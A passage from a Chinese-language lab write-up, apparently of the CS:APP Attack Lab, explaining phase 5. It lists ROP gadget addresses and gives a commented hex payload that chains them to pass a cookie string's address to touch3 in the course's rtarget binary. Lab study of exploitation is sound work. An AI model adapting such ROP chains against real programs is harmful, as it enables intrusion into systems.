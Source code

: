 * 执行`movq %rax,%rdi`并使`%rsp`指向`touch2`的入口地址，并使得`pc`跳转至`ret`。

* 调用`ret`使得控制流进入`touch2`。  

  

### phase5

在此部分中，我们需要利用`rtarget`执行phase3中相同的攻击，通过实验手册的提示，我们可以知道可以被利用的工具代码段（gadgets）位于`start_farm()`和`end_farm()`之间。

同样的，我们我们需要在这段代码区间中寻找可能有用的gadgets：

```
401a06 : movq %rsp,%rax
4019a2 : movq %rax,%rdi
4019ab : popq %rax
401a86 : movl %esp,%eax
401a42 : movl %eax,%edx
401a34 : movl %edx,%ecx
401a13 : movl %ecx,%esi
```

值得注意的是，我们除了代码片段中的一部分可能有用，整个代码片段也可能是有用的（这一点困扰了我很长时间）。很关键的一段代码如下：

```
4019d6 : leaq(%rdi,%rsi,1),%rax
```

通过`leaq`操作，我们即可实现加法操作，从而构造由`%rsp`作为基址，一个由`popq %rax`传入的数值作为偏移地址的cookie字符串地址，我们可以构造如下的hex文件`rtarget2`：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00  /* movq %rsp,%rax (base address) */
a2 19 40 00 00 00 00 00  /* movq %rax,%rdi  */
ab 19 40 00 00 00 00 00  /* popq %rax  */
48 00 00 00 00 00 00 00  /* the num pop to %rax  */
42 1a 40 00 00 00 00 00  /* movl %eax,%edx */
34 1a 40 00 00 00 00 00  /* movl %edx,%ecx */
13 1a 40 00 00 00 00 00  /* movl %ecx,%esi */
d6 19 40 00 00 00 00 00  /* leaq (%rdi,%rsi,1),%rax */
a2 19 40 00 00 00 00 00  /* movq %rax,%rdi */
fa 18 40 00 00 00 00 00  /* address of touch3 */
35 39 62 39 39 37 66 61  /* the cookie (its address is equal to 'base address + 0x48' */
00
```

上述文件所代表的操作如下：

* 与phase3相同，我们需要在栈帧高地址处保存cookie字符串

* 利用`movq %rsp,$rax`和`movq %rax,%rdi`以保存栈指针的当前地址至`%rdi`。
* 利用`popq %rax`操作使得栈帧中的数值被传入`%rax`，然后通过一系列的`movl`操作使得该值被传递至`%esi`。
* 利用`leaq(%rdi,%rsi,1),%rax`构造偏移地址，即rookie字符串的起始地址，并利用`movq %rax,%rdi`使得该地址被传入`%rdi`。
* 返回至`touch3`。







